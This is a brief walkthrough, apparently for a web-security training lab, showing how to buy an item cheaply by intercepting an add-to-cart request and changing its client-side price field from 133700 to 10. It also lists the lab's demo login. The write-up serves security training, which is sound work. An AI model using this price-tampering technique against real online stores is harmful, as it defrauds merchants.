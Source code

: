 # Excessive trust in client-side controls

## This lab doesn't adequately validate user input. You can exploit a logic flaw in its purchasing workflow to buy items for an unintended price. To solve the lab, buy a "Lightweight l33t leather jacket".

## You can log in to your own account using the following credentials: `wiener:peter`

### step1

go to Lightweight l33t leather jacket and intercept while adding to cart

```javascript
productId=1&redir=PRODUCT&quantity=1&price=133700
```

### step2

change price and forword

```javascript

productId=1&redir=PRODUCT&quantity=1&price=10
```

### step3

order the product
